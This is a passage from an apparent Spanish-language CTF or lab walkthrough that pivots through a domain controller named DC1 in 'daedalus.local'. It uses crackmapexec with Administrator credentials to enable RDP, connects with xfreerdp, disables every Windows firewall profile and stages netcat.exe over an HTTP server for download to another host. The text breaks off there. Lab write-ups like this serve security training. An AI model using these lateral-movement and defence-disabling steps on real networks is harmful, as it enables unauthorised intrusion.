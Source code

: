 
Es importante recordar que actualmente no contamos con una conexión directa a la máquina destino. Para facilitar algunas tareas, utilizaremos el equipo DC1 como intermediario.

Antes de proceder, habilitaremos el Protocolo de Escritorio Remoto (RDP) en la máquina objetivo. Una vez habilitado, nos conectaremos a la máquina utilizando una herramienta como xfreerdp, que nos permitirá acceder de forma remota al escritorio de la máquina objetivo desde nuestra máquina local.

```bash
 crackmapexec smb dc1.daedalus.local -u Administrator -p pleasefastenyourseatbelts01! -M rdp -o ACTION=enable
SMB         daedalus.local  445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:daedalus.local) (signing:True) (SMBv1:False)  
SMB         daedalus.local  445    DC1              [+] daedalus.local\Administrator:pleasefastenyourseatbelts01! (Pwn3d!)
RDP         daedalus.local  445    DC1              [+] RDP enabled successfully

❯ xfreerdp /u:Administrator /p:pleasefastenyourseatbelts01! /v:dc1.daedalus.local /dynamic-resolution /cert:ignore
```

Para configurar un servidor HTTP en el equipo DC1, que tiene conexión directa con el otro dominio, primero subiremos un archivo MSI de Python y lo instalaremos para poder utilizarlo.

Una vez instalado Python, podremos usarlo para crear un servidor HTTP en el directorio "Documents", desde donde podremos compartir cualquier archivo que deseemos a través de un servidor HTTP en el DC1.

```powershell
PS C:\Users\Administrator\Documents> upload python-3.4.4.amd64.msi

Info: Uploading python-3.4.4.amd64.msi to C:\Users\Administrator\Documents\python-3.4.4.amd64.msi  

Data: 34739540 bytes of 34739540 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents>
```

Aunque enfrentamos una limitación adicional debido al firewall, podemos deshabilitarlo fácilmente para permitir el tráfico necesario. Esto nos facilitará la configuración y el funcionamiento del servidor HTTP en el equipo DC1.

```powershell
PS C:\Users\Administrator\Documents> Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False  
PS C:\Users\Administrator\Documents>
```

A continuación, procederemos a subir el archivo `netcat.exe` al servidor HTTP que hemos creado en el equipo DC1.

Una vez subido el archivo, utilizaremos el comando `curl` ejecutado como el usuario `elliot` para realizar una solicitud al archivo `netcat.exe` compartido en el DC1 y lo guardaremos en el directorio `C:\ProgramData`. Este proceso nos permitirá transferir el archivo `netcat.exe` al equipo DC1 para su posterior uso.

